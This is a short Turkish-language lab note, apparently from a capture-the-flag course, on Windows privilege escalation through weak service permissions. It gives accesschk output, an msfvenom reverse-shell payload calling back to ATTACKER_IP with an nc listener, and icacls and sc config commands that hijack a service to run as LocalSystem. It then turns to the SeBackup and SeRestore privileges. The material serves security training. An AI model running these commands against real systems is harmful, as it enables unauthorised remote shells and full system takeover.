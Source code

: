 acesschk aracılığıyla bir servisin izinleri kontrol edilebilir

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice 
[0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM 
	SERVICE_QUERY_STATUS 
	SERVICE_QUERY_CONFIG 
	SERVICE_INTERROGATE 
	SERVICE_ENUMERATE_DEPENDENTS 
	SERVICE_PAUSE_CONTINUE 
	SERVICE_START 
	SERVICE_STOP 
	SERVICE_USER_DEFINED_CONTROL 
	READ_CONTROL 
[4] ACCESS_ALLOWED_ACE_TYPE: 
	BUILTIN\Users SERVICE_ALL_ACCESS
```

Görüldüğü üzere `BUILTIN\Users` grubu SERVICE_ALL_ACCESS iznine sahip, yani servisi yeniden yapılandırabiliyor.

Böyle bir durumda zararlı bir .exe hazırlanıp sisteme gönderilebilir. 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe 
nc -lvp 4447
```

Herkese çalıştırma yetkisi vermeyi unutma
```shell-session
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Hizmetin ilişkili yürütülebilir dosyasını ve hesabını değiştirmek için aşağıdaki komutu kullanabiliriz (sc.exe kullanırken eşittir işaretlerinden sonraki boşluklara dikkat edin):
```shell-session
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

sonrasında yapılacak bir stop-start, kodu çalıştırır.
## Tehlikeli İzinleri İstismar Etme

Aşağıdaki komutla kullanıcı yetkilerini öğrenebilirsin
```
whoami /priv
```
Windows sistemlerinde kullanılabilen ayrıcalıkların tam listesi [burada](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) mevcuttur.
İstismar edilebilecek zafiyetler hakkında detaylı bir kaynağı da [Priv2admin](https://github.com/gtworek/Priv2Admin) Github sayfasında bulabilirsin

En yaygınları aşağıdakiler gibidir.
### SeBackup / SeRestore

SeBackup ve SeRestore yetkileri, DACL'yi görmezden gelerek sistemdeki her dosyayı okuma ve yazma yetkisi verir. 
